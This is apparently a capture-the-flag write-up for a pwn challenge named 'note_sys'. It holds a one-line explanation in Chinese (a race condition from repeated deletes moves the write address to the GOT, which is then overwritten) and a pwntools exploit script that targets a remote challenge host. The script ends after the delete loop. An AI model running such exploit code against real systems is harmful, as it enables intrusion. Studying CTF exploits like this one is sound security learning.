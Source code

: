 

### note_sys



Race condition多次delete后把写入地址减到got表，覆盖got表执行

EXP：

```python
from pwn import *

 

DEBUG = 0

VERBOSE = 1

LOCAL = 0

 

if VERBOSE:

   context.log_level = 'debug'

 

if LOCAL:

   io = process('./note_sys', aslr=False)

   if DEBUG:

       gdb.attach(io)

else:

   io = remote('118.31.18.29', 20003)

 

def make_note(content):

   io.recvuntil('choice:\n')

   io.sendline('0')

   io.recvuntil('input your note, no more than 250 characters\n')

   io.send(content)

 

def delete_note():

   io.recvuntil('choice:\n')

    io.sendline('2')

 

for i in range(12):

   delete_note()
```